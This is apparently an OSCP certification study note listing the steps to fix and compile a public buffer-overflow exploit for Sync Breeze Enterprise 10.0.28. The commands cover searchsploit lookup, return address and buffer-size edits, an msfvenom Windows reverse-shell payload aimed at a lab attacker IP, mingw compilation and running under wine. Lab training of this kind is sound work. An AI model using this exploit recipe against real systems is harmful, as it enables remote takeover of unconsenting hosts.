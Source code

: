 ```yaml
---
aliases: Fixing Memory Corruption Exploits
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - memory_corruption
  - buffer_overflow
  - fix_exploits
author: Mehdi N Tehrani
creat_date: 2023-12-29
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```


# References
https://en.wikipedia.org/wiki/Null-terminated_string

# Exploit Steps

1. find syncbreeze exploit
#syncbreeze #syncbreeze_enterprise #sync_breeze #exploit
`searchsploit "sync breeze enterprise 10.0.28"`

2. install `mingw-w64`
`sudo apt install mingw-w64`
#kali_install

3. update `42341.c`
	- update server address
		- `server.sin_addr.s_addr`
		- `char request_one[] =`
			- `Host:`
			- `Referer:`
	- update initial buffer size:
		- `int initial_buffer_size = 781;`
		- changed from 780 to 781
	- update return address:
		- `unsigned char retn[] = "\x83\x0c\x09\x10"; // 0x10090c83`
	- update shell code using `msfvenom`; leave `nop` slide as is
		- `msfvenom -p windows/shell_reverse_tcp lhost=192.168.45.216 lport=7777 exitfunc=thread -f c -e x86/shikata_ga_nai -b '\x00\x0a\x0d\x25\x26\x2b\x3d'`

4. compile c code
	- `i686-w64-mingw32-gcc ./42341.c -o syncbreeze_exploit.exe -lws2_32`
1. run with *wine*
	- `wine syncbreeze_exploit.exe`

